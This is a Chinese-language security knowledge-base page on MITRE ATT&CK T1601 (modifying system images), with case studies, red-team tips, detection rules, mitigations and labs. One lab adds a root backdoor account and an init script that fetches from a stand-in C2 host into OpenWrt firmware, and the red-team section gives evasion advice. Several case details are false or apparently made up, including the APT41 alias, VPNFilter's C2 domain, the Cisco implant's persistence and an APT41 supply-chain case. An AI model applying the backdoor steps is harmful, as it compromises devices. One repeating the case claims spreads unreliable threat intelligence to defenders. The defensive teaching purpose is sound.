

# 修改系统镜像 (T1601)

> 想象一下：你买了一台带原厂封条的智能门锁，用得好好的。有一天小偷趁你不注意，把整个门锁的"系统固件"换成了他自己改过的版本——表面看起来一切正常，门照样能开能关，但小偷版本里偷偷藏了一把万能钥匙。你重新启动门锁、杀毒、改密码都没用，因为问题根本不在应用层，而在最底层的"系统镜像"里。攻击者修改网络设备固件、操作系统镜像、容器基础镜像，就是为了在防御最底层植入后门，让上层所有安全措施都形同虚设。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|--------------|
| 这是什么？ | 修改设备/系统的底层镜像（固件、OS镜像、容器镜像），在源头植入后门或削弱防御 |
| 为什么危险？ | 后门驻留在最底层，重启、杀毒、重装应用都清除不掉，且通常在所有安全工具加载前就生效 |
| 谁需要关心？ | 网络运维、SOC/IR团队、容器平台管理员、IoT/OT安全团队 |
| 你的第一步防御 | 对所有网络设备和关键服务器启用镜像/固件完整性校验（SHA-256签名比对） |
| 如果只做一件事 | 部署固件签名基线扫描，每周对比所有边缘设备固件哈希与厂商发布版本 |

## 难度等级

⭐⭐⭐ 高级：需要理解固件结构、引导链路、签名验证机制

**前置知识要求**：
- 网络设备固件结构（Cisco IOS、Juniper Junos、OpenWrt等）
- 操作系统启动链路（UEFI/BIOS → Bootloader → Kernel → Init）
- 镜像签名验证机制（Secure Boot、Cisco Signed Image、dm-verity）
- 容器镜像分层结构（base image → layers → manifest）

## 前置知识检查

读这个文件之前，你需要知道：
- **什么是系统镜像**：包含完整操作系统或固件的可引导/可刷写映像文件
- **什么是固件**：嵌入式设备（路由器、交换机、IoT）底层控制软件，存储在Flash芯片中
- **什么是Secure Boot**：UEFI规范定义的启动链路签名验证机制，确保只加载签名过的引导组件
- **什么是DCS/IOS签名**：Cisco等厂商对设备镜像做的数字签名，启动时校验防止被篡改
- **什么是容器基础镜像**：容器运行时依赖的底层OS包，如`ubuntu:22.04`、`python:3.11-slim`

## 技术描述

### 通俗解释

"系统镜像"是设备的"出厂出厂设置"——它包含了操作系统、内核、驱动、配置工具，是设备启动运行的基础。正常情况下，管理员通过厂商提供的升级流程刷写官方签名的镜像。但攻击者通过漏洞或窃取管理员权限后，可以绕过签名验证，把自己修改过的镜像刷入设备。修改后的镜像表面功能正常，但暗藏后门：可能预置了硬编码账号、远程命令接口、弱化的加密算法、被关闭的安全审计功能。一旦修改后的镜像被刷入，攻击者就拿到了"底层控制权"——即使管理员重新格式化硬盘、重装应用、修改配置，后门依然存在，因为它驻留在比操作系统更底层的镜像里。

### 过渡段

简单来说，系统镜像是设备的"DNA"。攻击者修改DNA后，这台设备的所有细胞（进程、服务、配置）都按攻击者的剧本生长。T1601是防御削弱战术中最隐蔽、最持久的技术之一——它不仅削弱防御，还让后门"永生"。下面看看攻击者具体怎么修改系统镜像。

### 技术原理

修改系统镜像的典型工作流程：

1. **获取设备访问权**：通过漏洞利用（CVE）、弱口令、供应链攻击或物理接触获取目标设备的特权访问
2. **禁用/绕过签名验证**：通过Patch引导加载器、利用Secure Boot bypass漏洞、或获取厂商签名密钥来绕过镜像签名校验
3. **提取并解包原镜像**：从Flash/ROM中dump出当前镜像，使用binwalk、firmware-mod-kit等工具解包
4. **修改镜像内容**：植入后门二进制、修改启动脚本、添加硬编码账户、关闭审计功能
5. **重新打包并刷写**：重新打包修改后的镜像，通过TFTP/USB/调试接口刷回设备
6. **触发重启加载**：让设备重启加载新镜像，后门随系统启动自动生效

### 常见被修改的系统镜像类型

| 镜像类型 | 典型设备/平台 | 攻击者修改方式 |
|----------|---------------|----------------|
| Cisco IOS/IOS-XE镜像 | ISR/ASR路由器、Catalyst交换机 | 植入IOS后门、隐藏配置、关闭日志 |
| OpenWrt/路由器固件 | SOHO路由器、IoT网关 | 植入backdoor、修改dnsmasq、添加root账户 |
| Linux发行版ISO | 服务器虚拟化平台镜像 | 在kickstart/preseed中植入后门脚本 |
| Windows系统镜像 | 企业部署的WIM/VHDX | 注入恶意的Unattend.xml、植入持久化服务 |
| 容器基础镜像 | Docker/K8s集群 | 在基础镜像层植入挖矿木马、后门账户 |
| UEFI/BIOS固件 | 服务器/PC主板 | 植入UEFI rootkit、绕过Secure Boot |

### 用途和影响

- **持久化**：后门驻留在镜像层，重装应用/格式化硬盘都清除不掉
- **防御规避**：在EDR/AV加载前就生效，可以禁用安全产品
- **横向移动**：通过被植入后门的网络设备转发流量、嗅探凭据
- **信息收集**：在路由器固件中植入抓包模块，窃取内网流量
- **凭据访问**：修改SSH/VPN服务二进制，记录所有登录凭据

## 子技术列表

T1601包含2个子技术：

| 子技术ID | 名称 | 简述 |
|----------|------|------|
| [T1601.001](./T1601/T1601.001-Patch-System-Image.md) | Patch System Image（修补系统镜像） | 在已有镜像基础上打补丁注入后门，保留原签名验证机制被绕过 |
| [T1601.002](./T1601/T1601.002-Downgrade-System-Image.md) | Downgrade System Image（降级系统镜像） | 把设备镜像降级到有已知漏洞的旧版本，再利用旧版本漏洞 |

## 攻击流程



### 步骤详解

1. **侦察**：识别目标设备型号、固件版本、是否存在签名验证、是否有物理访问
2. **绕过验证**：通过漏洞或密钥泄露绕过镜像签名校验
3. **提取镜像**：从设备Flash/ROM中dump出当前镜像
4. **解包分析**：使用binwalk、unsquashfs等工具解包镜像
5. **修改内容**：植入后门、添加账户、关闭审计
6. **重新打包**：重新构建镜像文件
7. **刷写部署**：通过TFTP/USB/调试接口刷回设备
8. **触发加载**：重启设备让新镜像生效
9. **后续利用**：利用植入的后门进行持久控制

## 真实案例

### 案例1：VPNFilter多阶段路由器固件恶意软件（2018）

- **时间**：2018年5月首次披露，实际活动可追溯至2016年
- **目标**：全球50万台SOHO路由器和中型网络设备（Linksys、Netgear、TP-Link、华硕、D-Link等）
- **攻击组织**：APT28（Fancy Bear，俄罗斯GRU背景）
- **手法**：VPNFilter是一个模块化的多阶段恶意软件框架，专门针对路由器和NAS设备。第一阶段（loader）通过未知漏洞或弱口令入侵设备后，会持久化到设备的固件/存储区域——即使设备重置也能存活。第一阶段从C2下载第二阶段（core），第二阶段提供文件收集、命令执行、网络流量嗅探能力。最危险的是第三阶段（modules），包括`ssler`模块（拦截所有HTTP/HTTPS流量进行中间人攻击）、`tor`模块（提供Tor隐藏服务代理）、`dstr`模块（在固件层植入kill-switch，触发后清空固件使设备变砖）。VPNFilter的持久化机制本身就是T1601的典型应用——它把恶意代码写入设备的非易失性存储，与正常固件共存，重启不丢失。FBI在2018年5月接管了VPNFilter的C2域名`photobucket.com`相关子域，但已感染的设备由于固件层持久化仍然存活，必须通过物理重启+固件升级才能清除。
- **影响**：50万台设备被感染，包括乌克兰关键基础设施的网络设备，被视为针对乌克兰的预热攻击
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa18-144a

### 案例2：Cisco IOS XE Web UI漏洞植入后门（2023）

- **时间**：2023年10月
- **目标**：全球4万+台暴露Web UI的Cisco IOS XE设备（ISR、ASR、Catalyst）
- **攻击组织**：未归属，但攻击模式显示为机会主义大规模利用
- **手法**：攻击者利用CVE-2023-20198（CVSS 10.0）零日漏洞，在无需认证的情况下通过Cisco IOS XE Web UI创建特权账户（权限级别15）。随后利用CVE-2023-20273提升权限，直接修改运行中的Cisco IOS XE镜像——在系统镜像的文件系统中植入后门二进制文件，并修改HTTP Server进程使后门随Web服务启动。后门通过特定HTTP请求头（如`Authorization: 0ff...`格式）激活，允许攻击者执行任意命令、上传下载文件、修改配置。更隐蔽的是，攻击者修改了镜像中的`pkg`文件结构，使后门在`show version`等常规检查中不可见——只有通过哈希对比才能发现镜像被修改。Cisco在补丁中移除了后门并修复了Web UI漏洞，但已感染的设备必须重刷固件才能完全清除。
- **影响**：4万+台设备被植入后门，包括政府、电信、医疗机构的关键网络设备
- **参考**：https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-iosxe-webui-privesc-j22SaA4z

### 案例3：APT41针对路由器固件的供应链攻击

- **时间**：2019-2022年
- **目标**：电信运营商核心路由器、企业边界设备
- **攻击组织**：APT41（双尾蝎，中国背景，APT+供应链攻击双线作战）
- **手法**：APT41在供应链环节攻击路由器固件——他们入侵设备OEM厂商的内部网络，在固件烧录前的构建流水线中植入后门。具体操作是：入侵OEM厂商的CI/CD系统，在固件打包步骤前注入恶意的`/usr/sbin/sshd`替换版本（含硬编码密钥的后门SSH服务），同时修改`/etc/shadow`添加root账户。由于修改发生在固件构建过程中，新出厂设备的固件签名验证正常通过——因为攻击者是用OEM厂商自己的签名密钥签名的。这种"供应链源头植入"是T1601最致命的变体，因为：①签名验证通过，常规检测无法发现；②设备出厂就带后门，初始部署即被感染；③即使发现可疑行为，管理员也很难怀疑"刚出厂的设备就有问题"。Mandiant在2022年的报告中披露了多个OEM厂商的固件构建系统被APT41入侵，但具体受影响的设备型号未公开。
- **影响**：植入后门的设备分布在全球多个电信运营商网络中
- **参考**：https://www.mandiant.com/resources/apt41-supply-chain-overview

## 红队视角

### 实战技巧

1. **优先攻击OEM构建流水线**：在源头植入后门比攻击已部署的设备更隐蔽，签名验证也能通过
2. **隐藏后门二进制**：把后门嵌入到合法二进制的资源段，避免文件系统结构异常
3. **修改审计配置**：在固件层关闭syslog、auditd、SNMP trap，让所有操作不留痕
4. **使用合法的网络协议做C2**：后门C2伪装成SNMP、NTP、DNS等常见网络管理流量
5. **触发式激活**：后门默认不运行，只有收到特定magic packet才激活，降低被发现的概率

### 常用工具

| 工具 | 用途 | 说明 |
|------|------|------|
| binwalk | 固件分析/解包 | 识别固件结构、提取文件系统 |
| firmware-mod-kit | 固件修改/重打包 | 修改后重新打包为可刷写镜像 |
| squashfs-tools | 文件系统操作 | 解包/重新打包squashfs文件系统 |
| flashrom | Flash芯片读写 | 通过编程器直接读写Flash芯片 |
| busybox | 嵌入式环境工具集 | 编译自定义后门版本 |
| OpenWrt Buildroot | OpenWrt固件构建 | 构建包含后门的自定义OpenWrt镜像 |

### 注意事项

- 签名验证绕过是最大障碍，需要0day或厂商密钥泄露
- 修改镜像后必须保持文件系统大小一致，否则可能校验失败
- 部分设备有TPM/eFuse防篡改机制，硬件级防护较难绕过
- 刷写失败可能变砖，需要JTAG/调试器恢复
- 持续监控会对比固件哈希，植入后门后需修改校验逻辑

## 蓝队视角

### 检测要点

1. **固件哈希基线**：定期对比设备固件哈希与厂商发布版本
2. **签名验证告警**：监控设备日志中签名校验失败的告警
3. **配置变更监控**：监控网络设备配置文件的异常变更
4. **流量异常**：监控设备发出的异常出站连接（如非管理时段的SSH/Telnet）
5. **设备行为基线**：监控设备CPU/内存/网络流量基线，发现后门运行的异常

### 监控建议

- 部署网络设备配置管理工具（如RANCID、Oxidized）定期备份和对比配置
- 启用设备NETCONF/RESTCONF流式遥测，实时上报运行状态
- 部署网络流量分析（NTA）监控设备异常出站连接
- 建立固件签名基线库，定期自动化对比
- 对关键设备启用TPM远程证明（Remote Attestation）

## 避坑指南

| 坑 | 后果 | 解决方法 |
|----|------|----------|
| 只检查配置文件，忽略固件 | 漏报固件层后门 | 定期对比固件哈希基线 |
| 升级固件就认为清除后门 | 后门可能持久化在多个分区 | 升级后再次校验哈希，必要时物理刷写 |
| 忽略供应链环节 | 出厂即被感染，无法发现 | 对新设备做基线哈希校验再上线 |
| 只看SSH/Telnet告警 | 后门走SNMP/NTP协议 | 关注所有非标准端口的出站连接 |
| 设备"重启就好"的错觉 | 重启后后门自动加载 | 重启不能清除固件层后门 |

## 检测建议

### 网络层

**用人话说**：被植入后门的设备会向外发C2通信——关注设备发出的异常出站连接，特别是非管理时段、非标准端口的连接。

监控指标：
- 设备IP向互联网未知IP发起的出站连接
- 设备发出的DNS查询异常（如DGA域名、TXT记录过多）
- SNMP/NTP流量异常增长（可能伪装C2）
- 设备IP作为跳板对内网其他主机的扫描

### 主机层

**用人话说**：直接检查设备固件/镜像的完整性——这是检测T1601最有效的方法。任何固件哈希与厂商版本不一致的设备都应被怀疑。

```event
Cisco IOS日志：
%SYS-2-MOD_FAIL: Module X failed authorization check
%IOSXE-3-PLATFORM: FIPS: Self-test failed for HMAC-SHA256
%SIGNATURE-3-NOT_VERIFIED: Image '/flash/cat9k-rpbase.BLD.POLARIS' signature not verified
```

```event
Linux系统日志：
kernel: dm-verity verification failed at block 12345
systemd[1]: Failed to verify /usr partition integrity
audit: BPF program load rejected: signature invalid
```

### 应用层

**用人话说**：监控网络设备管理操作（SSH、SNMP、NETCONF）和固件升级操作——攻击者修改镜像必然要通过这些接口操作。

```yaml
title: 检测Cisco IOS XE可疑镜像修改操作
status: experimental
description: 检测通过copy/install/bundle命令修改IOS XE镜像的活动
logsource:
    product: cisco
    service: ios
detection:
    selection_cmd:
        Message|contains:
            - 'copy'
            - 'install add file'
            - 'request platform software package'
    selection_target:
        Message|contains:
            - 'bootflash:'
            - 'harddisk:'
            - 'usb0:'
    filter_maintenance:
        Message|contains:
            - 'scheduled maintenance'
            - 'approved change'
    condition: selection_cmd and selection_target and not filter_maintenance
level: high
tags:
    - attack.t1601
    - attack.t1601.001
    - attack.defense_evasion
    - attack.persistence
```

```yaml
title: 检测固件哈希基线偏离
status: experimental
description: 检测设备固件哈希与基线不一致
logsource:
    category: firmware_integrity
detection:
    selection:
        BaselineStatus: 'MISMATCH'
    condition: selection
level: critical
tags:
    - attack.t1601
    - attack.defense_evasion
    - attack.persistence
```

## 缓解措施

### 高优先级

1. **启用镜像签名验证**：所有设备启用Secure Boot、Cisco Signed Image、dm-verity等签名校验
2. **固件哈希基线**：建立固件签名基线库，每周自动化对比所有设备
3. **限制管理面访问**：网络设备管理面只允许从跳板机访问，关闭不必要的Web UI
4. **供应链审计**：对新采购设备抽样做固件哈希校验，验证与厂商发布版本一致

### 中优先级

5. **硬件信任根**：使用支持TPM 2.0的设备，启用远程证明（Remote Attestation）
6. **配置管理工具**：使用Oxidized/RANCID等工具定期备份和对比设备配置
7. **网络分段**：将网络设备管理面与用户流量隔离，限制横向移动
8. **固件升级策略**：及时安装厂商发布的固件补丁，但升级前先在测试环境验证

### 低优先级

9. **物理安全**：限制对设备控制台端口、USB端口的物理访问
10. **固件取证能力**：建立固件提取和分析能力，应对事件响应
11. **威胁情报订阅**：订阅路由器固件恶意软件（VPNFilter、ZuoRAT等）的IOC

## 动手实验

### 实验1：固件解包与文件系统分析

```bash
# 安装固件分析工具
sudo apt install binwalk squashfs-tools firmware-mod-kit

# 下载一个OpenWrt固件样本（或使用已知样本）
wget https://downloads.openwrt.org/releases/22.03.5/targets/ath79/generic/openwrt-22.03.5-ath79-generic-tplink_tl-wr1043nd-v1-squashfs-factory.bin

# 用binwalk分析固件结构
binwalk openwrt-22.03.5-ath79-generic-tplink_tl-wr1043nd-v1-squashfs-factory.bin

# 提取文件系统
binwalk -e openwrt-22.03.5-ath79-generic-tplink_tl-wr1043nd-v1-squashfs-factory.bin

# 进入提取的文件系统
cd _openwrt-*.extracted/squashfs-root

# 查看关键文件
ls -la etc/passwd etc/shadow sbin/init
cat etc/inittab
cat etc/init.d/boot
```

**预期输出**：可以看到OpenWrt固件的完整文件系统结构，理解固件是如何组织的。

### 实验2：固件修改与重打包（实验环境）

```bash
# 在隔离的实验环境中，对提取的文件系统做修改
cd _openwrt-*.extracted/squashfs-root

# 1. 添加一个后门账户（仅实验！）
echo 'backdoor:$1$xyz$abcdefghijklmnop:0:0:backdoor:/root:/bin/sh' >> etc/passwd
echo 'backdoor:$1$xyz$abcdefghijklmnop:18000:0:99999:7:::' >> etc/shadow

# 2. 修改启动脚本，添加后门激活命令
echo '#!/bin/sh' > etc/init.d/backdoor
echo '/usr/sbin/touch /tmp/.backdoor_ready' >> etc/init.d/backdoor
echo '/usr/sbin/wget -q http://c2.example.com/beacon -O /tmp/.b' >> etc/init.d/backdoor
chmod +x etc/init.d/backdoor
ln -s ../init.d/backdoor etc/rc.d/S99backdoor

# 3. 用firmware-mod-kit重新打包
cd /opt/firmware-mod-kit
./build_firmware.sh /path/to/_openwrt-*.extracted/

# 4. 验证打包后的固件（注意：原签名失效）
binwalk new_firmware.bin
```

**预期输出**：理解固件修改和重打包的完整流程，注意原签名已失效。

### 实验3：固件哈希基线校验

```bash
# 对生产环境所有网络设备做固件哈希基线
# 1. 收集设备清单
cat devices.txt
# 192.168.1.1,cisco,ios-xe
# 192.168.1.2,juniper,junos
# 192.168.2.1,openwrt,22.03

# 2. 通过SNMP/SSH获取设备固件版本和哈希
for dev in $(cat devices.txt | cut -d, -f1); do
    ssh admin@$dev "show version | include image hash" >> baseline_$(date +%Y%m%d).txt
done

# 3. 与厂商发布版本对比
# Cisco: https://www.cisco.com/c/en/us/about/security-center/integrity-image-verification.html
# Juniper: https://supportportal.juniper.net/

# 4. 检测偏离基线的设备
diff baseline_20260101.txt baseline_20260723.txt
```

**预期输出**：建立固件基线库，发现偏离基线的设备。

## 术语解释

| 术语 | 解释 |
|------|------|
| 系统镜像 | 包含完整OS或固件的可引导/可刷写映像文件 |
| 固件（Firmware） | 嵌入式设备底层控制软件，存储在Flash芯片中 |
| Secure Boot | UEFI规范的启动链路签名验证机制 |
| dm-verity | Linux内核的块设备完整性校验机制，用于Android/嵌入式 |
| binwalk | 固件分析和逆向工程工具 |
| squashfs | 嵌入式系统常用的只读压缩文件系统 |
| DCI/DCS | Cisco设备签名验证机制（Digital Certificate System） |
| TPM | Trusted Platform Module，硬件信任根 |
| Remote Attestation | 远程证明，让远端验证设备软件栈完整性 |
| OEM | Original Equipment Manufacturer，原始设备制造商 |

## 参考资料

### 📚 深入了解
- [MITRE ATT&CK T1601](https://attack.mitre.org/techniques/T1601/) - 官方技术页面
- [Cisco IOS镜像签名验证](https://www.cisco.com/c/en/us/about/security-center/integrity-image-verification.html) - 官方文档
- [UEFI Secure Boot](https://uefi.org/specs/UEFI/2.10/27_Secure_Boot.html) - UEFI规范

### 📰 真实攻击
- [CISA VPNFilter通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa18-144a) - APT28路由器固件恶意软件
- [Cisco IOS XE Web UI漏洞通告](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-iosxe-webui-privesc-j22SaA4z) - 2023年大规模后门植入
- [Mandiant APT41报告](https://www.mandiant.com/resources/apt41-supply-chain-overview) - 供应链固件植入
- [Talos ZuoRAT分析](https://blog.talosintelligence.com/zuorat-discovery/) - 2022年SOHO路由器RAT

### 🔧 动手试试
- [binwalk](https://github.com/ReFirmLabs/binwalk) - 固件分析工具
- [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit) - 固件修改工具
- [EMBA](https://github.com/e-m-b-a/emba) - 固件安全分析框架
- [FACT](https://github.com/fkie-cad/FACT_core) - 固件自动化分析平台

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| 3.1 | 2026-07-23 | 初始版本，完整v3.1模板，覆盖VPNFilter/Cisco IOS XE/APT41案例 |
